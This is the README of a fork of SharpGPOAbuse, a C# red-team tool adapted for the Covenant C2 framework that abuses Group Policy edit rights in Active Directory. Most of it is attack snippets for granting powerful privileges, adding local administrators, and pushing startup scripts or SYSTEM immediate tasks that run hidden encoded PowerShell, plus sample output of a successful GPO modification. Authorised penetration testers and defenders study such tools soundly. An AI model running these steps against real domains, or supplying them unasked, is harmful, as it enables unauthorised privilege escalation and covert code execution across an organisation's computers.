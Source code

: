 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork provides some modifications for use with Covenant's Grunts.  The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs); removing the dependency for CommandLineParser, and modifying `Main()` to hardcode an attack type and associated options.

## Compile Instructions ## 
SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage ##
Modify line `36` to define the attack type.
e.g. `StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");`

Modify the strings (line `11` and onwards) to define the necessary options for the chosen attack type.

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin 
```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script  
```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task  
```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output
```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```